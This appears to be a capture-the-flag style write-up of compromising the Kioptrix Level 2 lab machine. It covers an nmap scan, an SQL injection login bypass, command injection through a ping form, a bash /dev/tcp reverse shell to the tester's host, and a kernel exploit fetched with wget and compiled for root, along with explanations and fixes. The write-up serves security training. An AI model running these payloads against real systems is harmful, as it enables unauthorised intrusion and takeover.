 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Wed May 25 22:52:16 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 192.168.65.134
Nmap scan report for 192.168.65.134
Host is up (0.0021s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            627/udp   status
|_  100024  1            630/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_http-server-header: Apache/2.0.52 (CentOS)
|_ssl-date: 2022-05-25T23:43:02+00:00; -3h09m37s from scanner time.
630/tcp  open  status   1 (RPC #100024)
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:4C:24:00 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: -3h09m37s

TRACEROUTE
HOP RTT     ADDRESS
1   2.11 ms 192.168.65.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 25 22:52:49 2022 -- 1 IP address (1 host up) scanned in 33.84 seconds
```
</br>

Port 80, Website Main page: </br>
![main_page](images/kioptrixv2/main_page.png) </br>
This admin panel was vulnerable to SQL Injection, I was able to get inside using this payload: </br>
```' or '1'='1``` </br>

![index_page](images/kioptrixv2/index_page.png) </br>
The web server was asking for an address to ping, and this ping utility script was vulnerable to code injection: </br>
[code_injection](images/kioptrixv2/code_injection.png) </br>
To insert an additional command to the ping utility I did this: ```127.0.0.1 && whoami``` </br>
To gain a reverse shell I did this: </br>
Kali Linux: ```nc -nlvp 1234``` </br>
Web Server: ```127.0.0.1 && bash -i >& /dev/tcp/192.168.65.128/1234 0>&1``` </br>
**Vulnerability Explanation:** </br>
```OS Command Injection:``` </br>
OS Command Injection (also known as shell injection) is a web security vulnerability that allows an
attacker to execute an arbitrary operating system (OS) commands on the server that is running an
application, and typically fully compromise the application and all its data. </br>
```SQL Injection:``` </br>
SQL injection occurs when specially crafted user input is processed by the receiving program in a way
that allows the input to exit a data context and enter a command context. A successful SQL injection
exploit can read sensitive data from the database,modify database data,execute administration operations
on the database,recover the content of a given file present on the DBMS file system and in some cases
issue commands to the operating system. </br>
**Vulnerability Fix:** </br>
```OS Command Injection:``` </br>
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS
commands from application-layer code. In virtually every case, alternate ways of implementing the
required functionality are using safer platform APIs.
If it is considered unavoidable to call out to OS commands with user-supplied input, then strong input
validation must be performed. </br>
```SQL Injection:``` </br>
Most instances of SQL injection can be prevented by using parameterized queries (also known as
prepared statements) instead of string concatenation within the query. </br> </br>
**Initial Shell Screenshot:** </br>
![shell_poc](images/kioptrixv2/shell_poc.png) </br>
# Privilege Escalation:
I checked the kernel version of the machine with the command: ```uname -a``` </br>
![uname_cmd](images/kioptrixv2/uname_cmd.png) </br>
I found an exploit in [Exploit-DB](https://www.exploit-db.com/exploits/9542) </br>
**File Transferring:** </br>
I opened an HTTP server on my Kali machine with this command:
```python -m http.server 80``` </br>
Since wget command was installed on the machine, I downloaded the exploit to the /tmp folder: </br>
```wget 192.168.65.128/kernel.c``` </br>
Compiled it: </br>
```gcc kernel.c -o kernel``` </br>
Gave it Execution Permissions: </br>
```Chmod +x kernel``` </br>
**Vulnerability Exploited:** CentOs Kernel 2.6 Exploit. </br>
**Vulnerability Explanation:** The udp_sendmsg function in the UDP implementation in (1) net/ipv4/udp.c
and (2) net/ipv6/udp.c in the Linux kernel before 2.6.19 allows local users to gain privileges or cause a
denial of service (NULL pointer dereference and system crash) via vectors involving the MSG_MORE
flag and a UDP socket. </br> </br>
**Proof Of Screenshot:** </br>
![pe_poc](images/kioptrixv2/pe_poc.png)

